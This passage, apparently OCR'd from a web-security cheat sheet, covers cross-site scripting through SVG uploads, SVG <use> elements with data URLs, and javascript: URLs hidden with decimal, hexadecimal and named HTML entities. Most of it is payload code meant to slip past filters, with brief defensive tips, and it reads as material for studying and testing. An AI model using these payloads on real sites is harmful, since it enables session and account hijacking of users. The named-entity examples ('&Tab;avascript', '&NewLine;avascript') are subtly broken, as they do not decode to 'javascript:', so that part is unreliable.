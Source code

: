 Allowing image file uploads can lead to XSS if SVGs are uploaded, as scripts inside SVG documents are executed. Ensure the correct namespace attributes are added and follow XML parsing rules:

```xml
<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'>
  <image href="1" onerror="alert(1)" />
</svg>
```

To prevent this, filter the SVG or serve it with a `Content-Disposition` header with the value `attachment`.

## SVG Use Elements

You can get JavaScript execution by embedding an SVG document using the `<use>` element inside SVG, provided the document is on the same domain or using data URLs:

```xml
<svg>
  <use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg'&gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
</svg>
```

Modern browsers now restrict data URLs with use elements.

## HTML Entities

HTML has a wide range of encoding options, including:

**Decimal Entities**

Represent characters using character codes prefixed with `&#` and followed by an optional semicolon:

```html
<a href="&#106;avascript:alert(1337)">test1</a>
<a href="&#106avascript:alert(1337)">test2</a>
<a href="&#00000000106avascript:alert(1337)">test3</a>
```

Hexadecimal Entities

Represent characters using a code prefixed with `&#x` or `&#X` and an optional semicolon:

```html
<a href="&#x6aavascript:alert(1337)">test1</a>
<a href="&#x00006Aavascript:alert(1337)">test2</a>
```

Some HTML attribute values also support numeric entities.

**Named Entities**

These are readable representations of characters:

```html
<a href="&Tab;avascript:alert(1337)">test1</a>
<a href="&NewLine;avascript:alert(1337)">test2</a>
```
